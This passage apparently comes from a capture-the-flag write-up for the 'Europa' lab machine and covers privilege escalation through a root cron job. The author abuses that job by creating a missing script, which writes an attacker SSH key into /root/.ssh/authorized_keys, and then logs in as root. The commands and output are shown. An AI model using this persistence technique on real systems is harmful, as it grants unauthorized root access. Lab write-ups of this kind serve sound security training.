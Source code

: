     SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    * * * * *       root    /var/www/cronjobs/clearlogs



### Execution

Given that `clearlogs` is being called every minute, and `clearlogs` is
calling `logscleared.sh`, but that file doesn't exist, if I can create
it, I'll have execution to run whatever I want. I'll create a script
that puts my tiny ed25519 public SSH key into the root `authorized_keys`
file, and make it executable:



    www-data@europa:/var/www/cmd$ echo -e '#!/bin/bash\n\nmkdir /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys'
    #!/bin/bash

    mkdir /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys

    www-data@europa:/var/www/cmd$ echo -e '#!/bin/bash\n\nmkdir /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys' > logcleared.sh 
    www-data@europa:/var/www/cmd$ chmod +x logcleared.sh



Now I'll wait for the next minute to pass, and then connect with SSH as
root:



    root@kali# ssh -i ~/keys/ed25519_gen root@10.10.10.22
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    0 packages can be updated.
    0 updates are security updates.


    Last login: Fri Jan 22 15:53:41 2021 from 10.10.14.11
    root@europa:~#



And grab `root.txt`:



    root@europa:~# cat root.txt
    7f19438b************************







